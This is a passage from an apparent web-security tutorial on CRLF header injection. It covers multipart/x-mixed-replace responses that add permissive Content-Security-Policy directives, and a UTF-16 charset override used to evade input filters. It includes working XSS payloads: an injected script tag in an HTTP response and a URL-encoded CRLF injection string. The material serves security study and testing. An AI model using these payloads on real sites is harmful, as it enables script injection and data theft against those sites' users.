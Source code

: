 You may recognize the similarities with the `multipart/form-data` type commonly used in file upload requests. The body starts and ends with a boundary. Documents within those replace the previous one. The above would result in "Second message" in a `text/plain` content type to be displayed.

Interestingly, you can **replace** other headers too, like `Content-Security-Policy`. While it won't fully replace the header or specified directives, you **can only add directives** that the main header didn't specify, similar to if you would append content to the existing header. With `script-src` and `style-src` directives, you can use the uncommon [`script-src-elem`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/script-src-elem) and [`style-src-elem`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/style-src-elem) to set a laxer policy for specifically `<script>` and `<style>`/`<link rel=stylesheet>` elements.\
You can just enable all of the unsafe features again:

<pre class="language-http"><code class="lang-http">HTTP/1.1 200 OK
<strong>Content-Security-Policy: script-src 'none'; style-src 'none'
</strong>Content-Type: multipart/x-mixed-replace; boundary=BOUNDARY

--BOUNDARY
<strong>Content-Type: text/html
</strong><strong>Content-Security-Policy: script-src-elem 'unsafe-inline'; script-style-elem https:
</strong><strong>
</strong><strong>&#x3C;script>alert(origin)&#x3C;/script>
</strong><strong>&#x3C;style>@import '...'&#x3C;/style>
</strong>--BOUNDARY--
</code></pre>

### Charset

If your input is filtered/sanitized, you can also abuse the _charset_ of the content type by overwriting it in a header. The UTF-16 charset, for example, has null bytes in between each character:

[**Payload**](https://gchq.github.io/CyberChef/#recipe=Subsection\('%5C%5Cr%5C%5Cn%5C%5Cr%5C%5Cn\(.*\)',true,true,false\)Encode_text\('UTF-16LE%20\(1200\)'\)Merge\(true\)URL_Encode\(false\)\&input=eA0KQ29udGVudC1UeXBlOiB0ZXh0L2h0bWw7IGNoYXJzZXQ9VVRGLTE2DQoNCjxzY3JpcHQ%2BYWxlcnQob3JpZ2luKTwvc2NyaXB0Pg\&ieol=CRLF\&oeol=CRLF): `x%0D%0AContent-Type:%20text/html;%20charset=UTF-16%0D%0A%0D%0A%3C%00s%00c%00r%00i%00p%00t%00%3E%00a%00l%00e%00r%00t%00(%00o%00r%00i%00g%00i%00n%00)%00%3C%00/%00s%00c%00r%00i%00p%00t%00%3E%00`

<pre class="language-http"><code class="lang-http">HTTP/1.1 200 OK
Content-Type: application/json
Some-Header: x
<strong>Content-Type: text/html; charset=UTF-16
</strong><strong>
</strong><strong>&#x3C;�s�c�r�i�p�t�>�a�l�e�r�t�(�o�r�i�g�i�n�)�&#x3C;�/�s�c�r�i�p�t�>�
</strong>
{"some": "json"}
</code></pre>

If XSS isn't an option, it can also be combined with [#utf-16-iframe-stylesheet-content](cross-site-scripting-xss/html-injection.md#utf-16-iframe-stylesheet-content "mention") to leak content in the response.

### Redirect with `Location:`

